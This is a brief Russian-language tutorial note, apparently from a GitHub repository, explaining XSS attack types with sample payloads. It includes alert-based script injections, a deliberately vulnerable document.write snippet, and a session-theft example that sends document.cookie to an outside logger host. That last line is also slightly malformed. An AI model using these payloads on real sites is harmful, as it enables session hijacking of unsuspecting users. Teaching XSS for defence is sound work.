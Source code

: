 # XSS

XSS-атаки — самый распостранённый тип атак. 

Суть в том, что злоумышленик может внедрить свой html-код в ответ сервера.

Подразделяются на подтипы:

* reflected — когда код находится непосредствено в ссылке:
`http://example.com/?lang=en<script>alert('1')</script>`
или ссылка на страницу злоумышлиника внедряющую код.
* stored — код хранится на странице и вызывается на странице всеми приходящими пользователями.
* dom-based — не требует отправку данных на сервер, уязвмость содержится в клиенстком коде:
```HTML
hello

<script>
document.write(unescape(document.location.href))
</script>
```
При переходе на `http://example.com/?<script>alert('1')</script>`

Выполнится скрипт из урла

## Уязвимые символы, которые стоит экранировать

```
'"><(){}/
```

## Примеры атак:

* Сессия: 
```JS
new Image().src="http://logger.com?c+encodeURI(document.cookie);"
```
